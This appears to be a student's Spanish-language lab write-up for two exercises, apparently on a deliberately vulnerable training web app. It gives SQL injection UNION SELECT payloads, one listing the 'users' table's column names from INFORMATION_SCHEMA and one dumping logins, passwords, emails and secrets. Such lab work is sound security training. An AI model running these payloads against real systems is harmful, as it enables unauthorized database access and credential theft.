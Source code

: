 ### Ejercicio 23

Captura de pantalla mostrando cómo obtienes los nombres de las columnas de la tabla users.

```sql
kkk' union select 1,column_name,3,4,5,6,7 from INFORMATION_SCHEMA.COLUMNS where table_name="users" AND table_schema=database() -- 
```

![](23.png)


### Ejercicio 24

Captura de pantalla mostrando cómo obtienes los valores de dos usuarios. Usuario AIM y usuario bee.

```sql
kkk' union select 1,login, password, email, secret, 6,7 from users -- 
```
